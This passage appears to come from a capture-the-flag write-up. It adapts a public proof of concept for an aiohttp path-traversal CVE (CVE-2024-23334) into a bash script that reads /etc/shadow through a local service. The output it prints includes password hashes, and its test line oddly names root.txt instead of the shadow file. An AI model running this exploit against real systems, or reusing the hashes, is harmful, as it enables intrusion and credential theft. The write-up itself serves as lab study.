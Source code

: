Found a PoC for this cve [here](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh), and edited it to retrieve the /etc/shadow file:
```bash
#!/bin/bash

url="http://localhost:8282"
string="../"
payload="/assets/"
file="etc/shadow" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

After adding the `/assets` directory prefix, successfully accessed the `/etc/shadow` file, confirming the vulnerability.
```bash
❯ ./aiohttp_exploit.sh
[+] Testing with /assets/../../../root/root.txt
        Status code --> 200
root:$6$51.cQv3bNpiiUadY$0qMYr0nZDIHuPMZuR4e7Lirpje9PwW666fRaPKI8wTaTVBm5fgkaBEojzzjsF.jjH0K0JWi3/poCT6OfBkRpl.:19891:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:19889:0:99999:7:::
sshd:*:19889:0:99999:7:::
systemd-coredump:!!:19889::::::
rosa:$6$giyD4I2YumzG4k6.$0h0Gtrjj13qoK6m0XevedDBanbEz6BStzsLwUtrDm5sVkmnHOSSWF8f6W8B9btTEzyskmA2h/7F7gyvX1fzrT0:19893:0:99999:7:::
```